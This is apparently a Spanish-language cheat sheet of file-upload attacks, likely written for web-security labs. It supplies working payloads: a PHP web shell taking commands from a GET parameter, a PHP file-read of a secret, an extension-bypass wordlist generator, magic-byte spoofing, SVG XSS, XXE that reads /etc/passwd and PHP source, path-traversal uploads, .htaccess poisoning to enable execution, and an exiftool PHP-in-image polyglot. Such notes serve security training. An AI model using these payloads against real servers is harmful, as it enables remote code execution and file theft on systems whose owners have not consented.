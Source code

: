 #### Shells php útiles:

        <?php system($_GET['cmd']); ?>
        <?php echo file_get_contents('/home/carlos/secret'); ?>



#### Generar bash con wordlists para bypassear whitelists:

        for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
            for ext in '.php' '.phps' '.phtml' '.phar' '.php3' '.phtm'; do
                echo "shell$char$ext.jpg" >> wordlist.txt
                echo "shell$ext$char.jpg" >> wordlist.txt
                echo "shell.jpg$char$ext" >> wordlist.txt
                echo "shell.jpg$ext$char" >> wordlist.txt
            done
        done


#### Siempre agregar, previo al código malicioso un "tipo de archivo" en base a los magicnumbers:
"
GIFF8
<?php .... ?>

#### XSS:

Añadir código malicioso en la metadata de los archivos.
sgv example:
        <svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
            <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
            <script type="text/javascript">alert(window.origin);</script>
        </svg>


#### XXE:

leer un archivo en el servidor
        <?xml version="1.0" encoding="UTF-8"?>
        <!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
        <svg>&xxe;</svg>

#### Ver código fuente de un archivo php:
        <?xml version="1.0" encoding="UTF-8"?>
        <!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
        <svg>&xxe;</svg>


### File upload wth path transversal:
Podemos encontrarnos con que en algunos casos logramos subir un archivo malicioso, pero al momento de ejecutarlo en 
el servidor, este está impedido de ejecutarse mostrandonos el texto plano (si lo escondimos en una foto podríamos
intentar ejecutarla y que nada pase).
Esto se debe a que algunos servidores limitan la ejecución de código en directorios puntuales.
Para esto podemos combinar el path transversal agregándolo en la cabecera Content-Disposition:

###### Content-Disposition: form-data; name="avatar"; filename="../exploit.php" (debemos seguir todos los procedimientos de evación de filtros de path transversal si es que el servidor tiene alguna validación).
Luego, con el mismo path transversal podemos llamarlo. (puede que al momento de llamarlo, si debimos encodear el path}
transversal en la subida, no debamos encodearlo en la ejecución).

#### Blacklist bypass:
Fuerza bruta de extensión:
Si nos encontramos un filtro de blacklist, podemos hacer fuerza bruta sobre la extención del archivo malicioso buscando una extención permitida.

#### .htaccess poisoning/spoofing:

Podemos encontrarnos que no hay una extensión permitida dentro de las shells que necesitamos o que, aunque hubiera alguna, no hubiera permisos de ejecución. 
Podemos subir un archivo .htaccess envenenado que nos permita la ejecucion:

##### 1)repetimos la subida cabiando los siguientes parámetros:
        filename= .htaccess
        content-type = text/plain
        payload= AddType application/x-httpd-php .l33t (con esto habilitamos la ejecución de archivos con la extensión l33t)

##### 2)Subimos nuevamente la shell con la extensión ".l33t" y ejecutamos.

#### Recursión de extensiones:

Podemos también, si hay un filtro que busque por palabras puntuales y las elimine, sumar recursión a la extensión de
los archivos: shell.p.phphp

#### Polyglot php en una imagen:

exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php






